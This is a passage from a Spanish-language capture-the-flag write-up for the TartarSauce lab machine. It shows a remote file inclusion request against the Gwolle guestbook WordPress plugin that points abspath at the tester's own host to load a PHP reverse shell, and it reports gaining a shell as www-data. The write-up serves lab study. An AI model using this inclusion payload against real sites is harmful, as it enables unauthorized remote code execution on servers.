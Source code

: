 ```console
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/
```
> Como en la fase de reconocimiento vimos que el sitio web emplea php por ende todo aquel comando escrito en php será interpretado por el sistema

![](/assets/img/commons/TartarSauce/terminal2.png)

enviando la petición vemos que ya obtiene e interpreta nuestra reverse shell y ganamos una sh como www-data
![](/assets/img/commons/TartarSauce/terminal3.png)
